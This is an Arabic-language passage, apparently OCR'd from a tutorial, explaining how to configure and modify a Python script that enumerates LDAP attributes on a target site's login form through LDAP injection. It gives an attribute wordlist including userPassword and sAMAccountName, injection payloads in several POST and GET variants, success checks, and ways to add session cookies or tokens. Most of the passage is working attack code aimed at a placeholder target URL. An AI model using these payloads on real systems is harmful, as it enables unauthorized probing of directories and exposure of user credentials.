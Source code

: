 - **الإعداد**:
  - أنشئ ملفًا يسمى `dic` يحتوي على قائمة بالخصائص الشائعة (كل خاصية في سطر):
    ```
    uid
    cn
    sn
    userPassword
    mail
    givenName
    objectClass
    name
    surname
    commonName
    displayName
    telephoneNumber
    description
    memberOf
    sAMAccountName
    userPrincipalName
    ```
  - استبدل `https://TARGET_URL.com/` بعنوان الموقع المستهدف (مثل `https://example.com/login`).
  - استبدل `'TRUE CONDITION'` بنص يظهر في الاستجابة عندما تكون الخاصية صالحة (مثل `"Welcome"`, `"Success"`, أو تحقق من رمز الحالة مثل `r.status_code == 200`).
- **التعديلات الممكنة**:
  - **تغيير نوع الطلب**:
    - إذا كان الموقع يستخدم طلب GET بدلاً من POST، استبدل `requests.post` بـ `requests.get` وعدّل المعايير:
      ```python
      r = requests.get(url + '?search=*)(' + str(i) + '=*))\x00')
      ```
  - **تغيير حقل الإدخال**:
    - إذا كان حقل الإدخال ليس `login`، استبدله بالحقل الصحيح (مثل `username` أو `search`):
      ```python
      r = requests.post(url, data={'username': '*)('+str(i)+'=*))\x00', 'password': 'bla'})
      ```
  - **تغيير شرط النجاح**:
    - إذا كنت تستخدم رمز حالة HTTP:
      ```python
      if r.status_code == 200:
          fields.append(str(i))
      ```
    - إذا كنت تبحث عن طول الاستجابة:
      ```python
      if len(r.text) > 100:  # استبدل 100 بالطول المناسب
          fields.append(str(i))
      ```
  - **إضافة رؤوس HTTP**:
    - إذا كان الموقع يتطلب رؤوسًا (مثل `Authorization` أو `Cookie`):
      ```python
      headers = {'Authorization': 'Bearer TOKEN', 'Cookie': 'session=XYZ'}
      r = requests.post(url, data={'login': '*)('+str(i)+'=*))\x00', 'password': 'bla'}, headers=headers)
      ```
- **التشغيل**:
  - `python3 discover_fields.py`
- **المخرجات**:
  - يطبع قائمة بالخصائص الصالحة (مثل `['uid', 'cn', 'userPassword']`).
